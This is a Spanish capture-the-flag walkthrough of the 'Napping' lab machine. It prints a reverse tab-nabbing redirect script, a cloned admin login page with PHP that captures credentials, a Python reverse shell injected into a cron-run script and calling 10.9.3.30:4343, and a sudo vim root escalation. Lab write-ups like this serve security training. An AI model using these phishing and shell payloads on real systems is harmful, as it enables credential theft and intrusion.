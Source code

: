 
# Napping

Comenzamos realizando un escaneo de puertos en la máquina objetivo.

```bash
nmap -sV -sC -p- -T4 <ip>
```

* -sV: Sondeo de puertos abiertos para determinar la información del servicio/versión
* -sC: equivalente a _--script=default_.
* -p-: Escanea todos los puertos de la Red (65536)
* -T4: La velocidad de escaneo de puertos.

Se han identificado cuatro puertos abiertos en el sistema: el puerto `22` para `SSH`, el `80` para `HTTP`.

<figure><img src="../.gitbook/assets/napping/nmap.png" alt=""><figcaption></figcaption></figure>

Accedimos a la página web en el puerto **80** y creamos una cuenta para explorar su contenido.

<figure><img src="../.gitbook/assets/napping/signup.png" alt=""><figcaption></figcaption></figure>

Realizamos una enumeración de directorios en el puerto **80** para descubrir qué podemos encontrar.

<figure><img src="../.gitbook/assets/napping/dirsarch.png" alt=""><figcaption></figcaption></figure>

Encontramos algunos directorios, pero no son nada inusuales, ya que no contamos con credenciales. Por lo tanto, revisemos la página web que se carga normalmente.

En la página, encontramos el siguiente mensaje:

```
# Please submit your link so that we can get started.  
All links will be reviewed by our admin who also built this site!
```


Esto nos proporciona un vector de ataque, ya que el administrador del sitio revisará el contenido que subamos.

<figure><img src="../.gitbook/assets/napping/web.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/napping/req.png" alt=""><figcaption></figcaption></figure>

Examinamos el código del sitio web en busca de posibles vectores de ataque y efectivamente encontramos **Reverse Tab Nabbing**. Esto se debe al atributo `target="_blank"`, que nos permite redirigir a una página clonada para robar credenciales.

```
Luego, una vez que la víctima haga clic en el enlace y acceda al sitio web de los atacantes, este sitio web malicioso podrá controlar la página original a través de la ventana del objeto JavaScript.
```

Para  saber mas de este ataque: 

{% embed url="https://book.hacktricks.wiki/en/pentesting-web/reverse-tab-nabbing.html" %}


Primero, como observamos en la enumeración del sitio web, podemos acceder a la página de inicio de sesión de los administradores `/admin/login.php`. Por lo tanto, necesitaremos clonarla y añadir un fragmento de código para capturar las credenciales.

Comenzamos creando nuestro **`index.php`**, que nos permitirá redirigir la página a nuestro servidor hacia la versión clonada.

```PHP
<!DOCTYPE html>
<html>
 <body>
  <script>
  window.opener.location = "http://<yourip>:<port>/index.php";
  </script>
 </body>
</html>
```

Clonamos la página de **`/admin/login.php`** y añadimos el siguiente código, que nos permite capturar y enviar a nuestro servidor las credenciales de un administrador mediante una solicitud **`POST`**.

``` PHP
<?php
	if(isset($_POST['username'])){
		file_put_contents('creds.txt', file_get_contents('php://input'));
	}

?>
```

El código final en `login.php` se presentaría de la siguiente manera.

``` PHP

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Login</title>
    <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.5.2/css/bootstrap.min.css">
    <style>
        body{ font: 14px sans-serif; }
        .wrapper{ width: 360px; padding: 20px; }
    </style>
</head>
<?php
	if(isset($_POST['username'])){
		file_put_contents('creds.txt', file_get_contents('php://input'));
	}

?>

<body>
    <div class="wrapper">
        <h2>Admin Login</h2>
        <p>Please fill in your credentials to login.</p>


        <form action="/admin/login.php" method="post">
            <div class="form-group">
                <label>Username</label>
                <input type="text" name="username" class="form-control " value="">
                <span class="invalid-feedback"></span>
            </div>    
            <div class="form-group">
                <label>Password</label>
                <input type="password" name="password" class="form-control ">
                <span class="invalid-feedback"></span>
            </div>
            <div class="form-group">
                <input type="submit" class="btn btn-primary" value="Login">
            </div>
            <br>
        </form>
    </div>
</body>
</html>


```

Ahora solo necesitamos iniciar un servidor `HTTP` para acceder a la URL de `index.php`, lo que permitirá redirigir a los usuarios a nuestro servidor con la página clonada.

<figure><img src="../.gitbook/assets/napping/clone.png" alt=""><figcaption></figcaption></figure>


<figure><img src="../.gitbook/assets/napping/CREAD.png" alt=""><figcaption></figcaption></figure>

De esta manera, conseguimos nuestras credenciales de administrador y accedemos a la página `/admin/login.php` para explorar su contenido. Sin embargo, lamentablemente, no encontramos nada interesante.

<figure><img src="../.gitbook/assets/napping/daniel.png" alt=""><figcaption></figcaption></figure>

Finalmente, intentamos acceder a través del puerto `SSH` y confirmamos que podemos ingresar sin problemas.

<figure><img src="../.gitbook/assets/napping/danielshh.png" alt=""><figcaption></figcaption></figure>

# Shell \daniel

Al realizar la enumeración de procesos con `pspy64`, podemos observar que hay varios procesos que se ejecutan de manera regular.

```
2025/08/25 00:40:01 CMD: UID=0     PID=1805   | /bin/sh -c /usr/bin/rm /home/adrian/site_status.txt 
2025/08/25 00:40:01 CMD: UID=0     PID=1806   | /bin/sh -c /usr/bin/python3 /root/del_links.py 
2025/08/25 00:40:01 CMD: UID=0     PID=1807   | /bin/sh -c /usr/bin/python3 /root/nap.py 
2025/08/25 00:40:01 CMD: UID=1000  PID=1808   | /bin/sh -c /usr/bin/python3 /home/adrian/query.py 
2025/08/25 00:40:01 CMD: UID=0     PID=1809   | /usr/bin/python3 /root/del_links.py 

```

Verificamos que contamos con permisos de escritura en el archivo `/home/adrian/query.py`, y efectivamente los tenemos. Esto nos permite escalar privilegios a `adrian` si implementamos un reverse shell.

<figure><img src="../.gitbook/assets/napping/adrianquery.png" alt=""><figcaption></figcaption></figure>

Incorporamos el siguiente código, especificando la dirección `IP` y el puerto del atacante.

```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.3.30",4343));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")

```

Quedaría de la siguiente forma.

```
from datetime import datetime
import requests

now = datetime.now()

import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.3.30",4343));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")
r = requests.get('http://127.0.0.1/')
if r.status_code == 200:
    f = open("site_status.txt","a")
    dt_string = now.strftime("%d/%m/%Y %H:%M:%S")
    f.write("Site is Up: ")
    f.write(dt_string)
    f.write("\n")
    f.close()
else:
    f = open("site_status.txt","a")
    dt_string = now.strftime("%d/%m/%Y %H:%M:%S")
    f.write("Check Out Site: ")
    f.write(dt_string)
    f.write("\n")
    f.close()

```

<figure><img src="../.gitbook/assets/napping/adianfalg.png" alt=""><figcaption></figcaption></figure>
# Shell \adrian


{% embed url="https://0xffsec.com/handbook/shells/full-tty/" %}

Al ejecutar `sudo -l`, observamos que tenemos la capacidad de ejecutar `/usr/bin/vim` como root, por lo que decidimos investigar más al respecto.

{% embed url="https://gtfobins.github.io/gtfobins/vim/" %}

A continuación, ejecutamos el siguiente comando.

```
sudo -u root /usr/bib/vim -c ':!/bin/sh'
```

<figure><img src="../.gitbook/assets/napping/sudo-l.png" alt=""><figcaption></figcaption></figure>

De esta manera, logramos obtener la shell de root junto con su bandera.

<figure><img src="../.gitbook/assets/napping/rootfla.png" alt=""><figcaption></figcaption></figure>

****************

>*Tu mente se satura al consumir tanto contenido. Piensa en lo que sucede cuando comes en exceso: te sientes pesado, letárgico y te cuesta moverte. Tu cuerpo clama por un descanso para poder digerir todo lo que has ingerido. Lo mismo ocurre con tu mente. Te despiertas y, de inmediato, comienzas a consumir stories, tomas café mientras escuchas podcasts, almuerzas viendo videos, trabajas con música de fondo, te relajas con series y te duermes con ruido relajante.*
>
>*El problema no radica en cada una de estas actividades por separado, sino en la falta de pausas para tu mente. Nunca le das la oportunidad de procesar lo que ha consumido, lo que resulta en una indigesta mental constante. Naces en un vacío, sin aburrimiento ni silencio, en un espacio incómodo donde tu mente no tiene hambre. Se ve obligada a crear lo que te gustaría consumir.*
>
>*Si deseas volver a crear, considera hacer un ayuno mental. Dale a tu mente el tiempo que necesita para procesar, digerir y, finalmente, generar algo propio. Al final, tienes dos opciones: consumir la creatividad de otros o crear la tuya. La elección es tuya.*
>
><figure><img src="../.gitbook/assets/napping/touhou.jpeg" alt=""><figcaption></figcaption></figure>